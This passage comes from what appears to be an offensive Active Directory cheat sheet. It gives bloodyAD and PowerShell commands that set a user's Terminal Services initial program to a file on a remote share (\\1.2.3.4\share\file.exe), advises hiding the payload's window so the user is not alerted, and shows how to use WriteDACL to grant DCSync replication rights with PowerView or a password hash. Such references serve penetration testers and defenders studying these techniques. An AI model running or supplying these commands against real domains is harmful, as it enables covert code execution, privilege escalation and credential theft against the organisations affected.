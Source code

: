 :warning: The RCM is only active on Terminal Servers/Remote Desktop Session Hosts. The RCM has also been disabled on recent version of Windows (>2016), it requires a registry change to re-enable.

* Windows/Linux:

 ```ps1
 bloodyAD --host 10.10.10.10 -d example.lab -u hacker -p MyPassword123 set object vulnerable_user msTSInitialProgram -v '\\1.2.3.4\share\file.exe'
 bloodyAD --host 10.10.10.10 -d example.lab -u hacker -p MyPassword123 set object vulnerable_user msTSWorkDirectory -v 'C:\'
 ```

* Windows only:

 ```ps1
 $UserObject = ([ADSI]("LDAP://CN=User,OU=Users,DC=ad,DC=domain,DC=tld"))
 $UserObject.TerminalServicesInitialProgram = "\\1.2.3.4\share\file.exe"
 $UserObject.TerminalServicesWorkDirectory = "C:\"
 $UserObject.SetInfo()
 ```

NOTE: To not alert the user the payload should hide its own process window and spawn the normal graphical environment.

## WriteDACL

To abuse `WriteDacl` to a domain object, you may grant yourself the DcSync privileges. It is possible to add any given account as a replication partner of the domain by applying the following extended rights `Replicating Directory Changes/Replicating Directory Changes All`.

### WriteDACL on Domain

* Windows/Linux:

  ```ps1
  # Give DCSync right to the principal identity
  bloodyAD.py --host [DC IP] -d DOMAIN -u attacker_user -p :B4B9B02E6F09A9BD760F388B67351E2B add dcsync user2
  
  # Remove right after DCSync
  bloodyAD.py --host [DC IP] -d DOMAIN -u attacker_user -p :B4B9B02E6F09A9BD760F388B67351E2B remove dcsync user2
  ```

* Windows only:

  ```ps1
  # Give DCSync right to the principal identity
  Import-Module .\PowerView.ps1
  $SecPassword = ConvertTo-SecureString 'user1pwd' -AsPlainText -Force
  $Cred = New-Object System.Management.Automation.PSCredential('DOMAIN.LOCAL\user1', $SecPassword)
  Add-DomainObjectAcl -Credential $Cred -TargetIdentity 'DC=domain,DC=local' -Rights DCSync -PrincipalIdentity user2 -Verbose -Domain domain.local 
  ```
  
### WriteDACL on Group
